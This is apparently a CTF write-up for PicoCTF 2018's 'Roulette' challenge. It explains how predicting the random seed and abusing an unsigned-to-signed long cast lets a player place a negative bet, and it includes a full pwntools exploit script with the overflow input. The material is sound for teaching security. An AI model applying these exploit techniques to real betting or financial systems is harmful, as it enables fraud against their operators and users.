

# Roulette

This is a 350-point miscellaneous challenge from PicoCTF 2018.

### Problem Description

This Online Roulette Service is in Beta. Can you find a way to win $1,000,000,000 and get the flag? [Source.](./roulette.c) Connect with `nc 2018shell.picoctf.com 26662`.

### Solution

This problem is a roulette game, and the player wins by making more than a billion dollars after starting with less than $5,000. The source code for this problem indicates that the random number seed is between 0 and 5000, and the starting money is determined by that random seed. That means that by repeatedly playing games, I can keep track of what the winning number sequences are for various values of the random seed.

In solving this, I started with an inefficient approach. My intuition was that I could win by brute forcing a dictionary containing all the winning sequences. I decided to keep track of the winning sequences with arrays indexed from a hash table (i.e. Python dictionary). In other words, a starting money value of $2996 might be contained in a dict as follows: {2996:[20,33,10]}, where the first three games require bets placed on 20, 33, and 10, and the outcome of the fourth game has not yet been determined.

Extracting the winning number from a single spin is pretty straightforward, and I got that with a little help from executing my Python script with `DEBUG` as a parameter to properly parse the program's output and handle edge cases. My first concern was to verify that a dictionary of solutions that I produce locally would contain the correct guesses needed for the server.

A little new to how random seeds worked, I felt it was useful to do a few tests before generating and saving a dictionary. I first checked that two separate instances run on the server with the same starting money resulted in the same results for the wheel spins, and they did. Now the remote application incorporates a delay between the start of the wheel spin and the result, so I tried checking that the spin results for a game run with the same starting money on the server and on a local instance were the same, and they were. Next, I compiled a local version that got rid of the delay between the start of a spin and the reporting of the results, so that I could construct my dictionary more quickly. At this point I could create a dictionary quite fast. That turned out to be the first half of the solution.

In order to quickly debug the ending conditions, I created a fake roulette program that creates the same random seed every time. At that point I realized that if I win 16 times the game kicks me out, so even if I were to properly build up a dictionary with the first 16 correct guesses, I still could not win a billion dollars.

That realization led me to the second bug. What I actually need to do is bet a negative amount of money. In `get_long` I have an unsigned long that gets cast as a signed `long` when the value is returned to `get_bet`. So I should be able to specify a large enough number such that the returned value from `get_long` is cast as a negative number. Then, I can bet a large negative amount and lose, and end up with more than a billion dollars. Of course, I have to first win at least three times so that the number of wins is greater than `HOTSTREAK` (3).

I need to calculate negative one billion as an unsigned long. Here's the calculation in `gdb`:



With that, I can get the flag locally:


But oops! My local compiled version was a 64-bit binary, while the remote version is a 32-bit binary. That changed the value I needed to enter for the unsigned long. I made the change, and that gives me the flag on the server. I found the easiest way to do it was just to do it manually: I started a connection to the server, got the starting funds, calculated the first three numbers to win locally by setting the random seed to the starting number, and then bet negative one billion dollars.


Here's my solution:
```
## Exploit Roulette
## by Sudoite

from pwn import *
from pprint import pprint

## Technically, this code should work to get the flag remotely, but it's
## faster just to get the necessary random numbers locally and then use them
## manually as input for the server.

local = True

def spawn_process(local=True):
	if local:
		p=process('./roulette_fast_x86')
	else:
		p = remote('2018shell2.picoctf.com', 26662)

	return p

def get_starting_money(p):
	p.recvuntil("$")
	starting_money = int(p.recvuntil(" "))
	log.info("starting money is " + str(starting_money))
	return(starting_money)

def spin(wager, p):
	p.send(str(wager) + "\n")
	p.recvuntil("Spinning")
	p.recvline()
	p.recvline()
	spinresult = p.recvuntil("\n")
	# int() doesn't work cleanly on input that starts with "\x08"
	if spinresult[len(spinresult)-3] == "\x08":
		result = int(spinresult[len(spinresult)-2:len(spinresult)])
	else:
		result = int(spinresult[len(spinresult)-3:len(spinresult)])
	print("spin result = " + spinresult)
	print("winning number = " + str(result))
	return(result)

lose_messages = {"WRONG\n","Nice try..\n","YOU LOSE\n","Not this time..\n","Better luck next time...\n"}

# one in 36 times the last round bet will succeed, but I don't care, this will usually work.
def play_last_round(p, starting_money, money, round_number):
	p.recvuntil("> ")
	#if local:
	#	p.send("18446744072709551615\n") # -1000000001 as an unsigned long (for a 64-bit not 32-bit application)
	#else:
	p.send("3294967295\n") # for 32-bit application
	p.recvuntil("> ")
	guess = 20
	result = spin(guess, p)
	p.interactive()
	return money, round_number

def play_round(p, starting_money, money, round_number):
	p.recvuntil("> ")
	p.send(str(money)+"\n")
	p.recvuntil("> ")
	if starting_money in seed_dictionary and len(seed_dictionary[starting_money]) > round_number:
		log.info("Guessing a pre-existing value: " + str(seed_dictionary[starting_money][round_number]))
		log.info("Starting money = " + str(starting_money))
		log.info("round_number = " + str(round_number))
		guess = seed_dictionary[starting_money][round_number]
	else:
		guess = 20
	result = spin(guess, p)
	log.info("result = " + str(result))
	if len(seed_dictionary[starting_money]) < round_number:
		log.info("ERROR: length of seed_dictionary["+str(starting_money) + "] < " + str(round_number))
		exit(0)
	elif len(seed_dictionary[starting_money]) == round_number:
		seed_dictionary[starting_money].append(result)
	p.recvline()
	result_message = p.recvline()
	print("result_message = " + result_message)
	if result_message in lose_messages:
		print("seed_dictionary: ")
		pprint(seed_dictionary)
		if local:
			p.kill()
		else:
			p.close()
		round_number = 0
	else:
		print("collision! round_number = " + str(round_number) + ", starting money = " + str(starting_money) + ", guess = " + str(guess))
		print("seed_dictionary: ")
		pprint(seed_dictionary)
		if len(seed_dictionary[starting_money]) == round_number: # got lucky and guessed 20
			seed_dictionary[starting_money].append(result)
		money *= 2
		round_number += 1
	return money, round_number

def play_game():
	round_number = 0
	while True:
		if round_number == 0:
			p = spawn_process(local=local)
			starting_money = get_starting_money(p)
			money = starting_money
			if starting_money not in seed_dictionary:
				seed_dictionary[starting_money] = []
		money, round_number = play_round(p, starting_money, money, round_number)
		if round_number >= 3:
			money, round_number = play_last_round(p, starting_money, money, round_number)
		print("returned from round " + str(round_number-1))


seed_dictionary = {}
round = 0
done = False

while not done:
	play_game()
	# Just break out when we get the flag locally
```

And [here's](./roulette_fast.c) the code to generate the roulette game with a fixed seed, along with the [binary](./roulette_fast_x86). Also, [here's](./roulette) the original binary.

### Alternative solutions

On CTF Time there are four submitted write-ups at the time of this solution. Three of them use the same approach that I did, and one brute-forces three wins. The only real difference between this approach and the three write-ups that exploit both bugs is the way that we generate the list of numbers necessary to win. I reproduced the entire game with the random seed set to what it is on the server, whereas the [other](https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/General/18-roulette-350/solution.md) [three](https://github.com/PlatyPew/picoctf-2018-writeup/tree/master/General%20Skills/roulette) [write-ups](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/roulette.md) generate the winning numbers on the fly by getting the random seed directly from the program and then generating random numbers in the Python script or a separate script by computing `(rand() % 36) + 1`.

That was an instructive problem regarding pseudo-random number generation and long overflows.
